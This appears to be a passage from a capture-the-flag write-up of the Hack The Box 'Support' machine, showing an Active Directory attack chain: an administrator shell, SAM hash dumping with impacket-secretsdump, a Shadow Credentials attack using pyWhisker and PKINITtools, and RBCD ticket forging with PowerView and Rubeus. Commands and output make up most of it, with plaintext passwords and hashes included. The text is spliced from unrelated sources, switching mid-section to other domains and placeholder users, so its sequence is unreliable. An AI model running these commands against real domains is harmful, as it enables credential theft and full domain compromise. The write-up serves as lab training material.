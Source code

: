 ```console
[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
PS C:\> whoami
support\administrator
```

Dump nthash

```console
└─╼$ impacket-secretsdump -k -no-pass support.htb/administrator@dc.support.htb -dc-ip $IP
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xf678b2597ade18d88784ee424ddc0d1a
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb06cbc02b39abeddd1335bc30b19e26:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

### Shadow Credential Attack

To abuse this privilege, use [pyWhisker](https://github.com/ShutdownRepo/pywhisker).

```console
└─╼$ python pywhisker.py -d support.htb -u support -p 'Ironside47pleasure40Watchful' --target "DC$" --action "add"
[*] Searching for the target account
[*] Target user found: CN=DC,OU=Domain Controllers,DC=support,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 7cf07fb5-baeb-820b-f820-25159233fec1
[*] Updating the msDS-KeyCredentialLink attribute of DC$
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: 2cHQrSP7.pfx
[*] Must be used with password: PRit6aUGeKso8oruVI0z
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools

python3 PKINITtools/gettgtpkinit.py -cert-pfx test1.pfx -pfx-pass xl6RyLBLqdhBlCTHJF3R domain.local/user2 user2.ccache
python3 PKINITtools/getnthash.py -key f4d6738897808edd3868fa8c60f147366c41016df623de048d600d4e2f156aa9 domain.local/user2
```

### Resource-Based Constrained Delegation, RBCD

Next, we need to set this newly created security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the comptuer account we're taking over, again using PowerView in this case:
`Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}`
We can then use Rubeus to hash the plaintext password into its RC4_HMAC form:
`Rubeus.exe hash /password:Summer2018!`
And finally we can use Rubeus' *s4u* module to get a service ticket for the service name (sname) we want to "pretend" to be "admin" for. This ticket is injected (thanks to /ptt), and in this case grants us access to the file system of the TARGETCOMPUTER:
`Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:admin /msdsspn:cifs/TARGETCOMPUTER.testlab.local /ptt`
